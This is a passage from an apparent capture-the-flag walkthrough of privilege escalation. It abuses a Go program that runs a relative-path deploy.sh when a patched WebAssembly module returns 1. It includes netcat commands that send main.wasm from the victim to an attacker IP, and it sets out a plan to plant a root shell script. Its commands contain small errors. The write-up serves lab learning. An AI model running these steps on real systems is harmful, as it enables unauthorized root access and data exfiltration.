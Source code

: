let's cat out the `index.go` file see what we have.
```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
- }
```

So according to the script if the result of `main.wasm` will be `1` then a script named `deploy.sh` will run, and `main.wasm` and `deploy.sh` file is used by relative path, we can modify the original `main.wasm` file to always return `1` as result and create our own `deploy.sh` to get root access, enough planning let's do it.

### Crafting the Payload

first copy the file on our attacker machine
```bash
mkdir -p /tmp/privesc && cd /tmp/privesc
cp /opt/wasm-functions/main.wasm
nc 10.10.14.35 4444 < main.wasm 	(victim machine)
nc -nvlp 444 > main.wasm 	(attacker machine)
```

since `main.wasm` is a compiled `web assembly` binary file we can't edit it directly, first we have to convert it into `.wat` file then we will modify it to return `1` and we will again convert this into `.wasm` binary.

**Converting wasm to wat**
```
wasm2wat main.wasm > main.wat
```
